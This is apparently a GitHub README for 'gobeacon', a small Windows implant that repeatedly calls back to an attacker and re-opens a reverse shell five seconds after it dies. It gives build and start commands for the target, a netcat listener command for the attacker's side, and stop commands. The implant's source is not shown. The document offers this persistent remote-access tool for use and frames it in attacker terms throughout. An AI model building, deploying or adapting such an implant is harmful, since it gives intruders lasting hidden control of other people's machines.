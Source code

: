 # gobeacon
A small beaconing windows implant that repeatedly calls out to the user. If the shell dies, the implant beacons again in 5 seconds.

## Compilation
```go
go build gobeacon.go
```

## Usage:
```go
./gobeacon start <IP> <PORT>
```

## Example
On target:
```
./gobeacon start 127.0.0.1 9001
```
On attacker:
```sh
rlwrap nc -lvnp 9001
```

To stop the beacon:
```
./gobeacon stop 127.0.0.1 9001
```
OR
From inside the shell
```
beacon> exit
```
### Creds
Creds to this blogpost where I ripped some daemonization code from: https://socketloop.com/tutorials/golang-daemonizing-a-simple-web-server-process-example
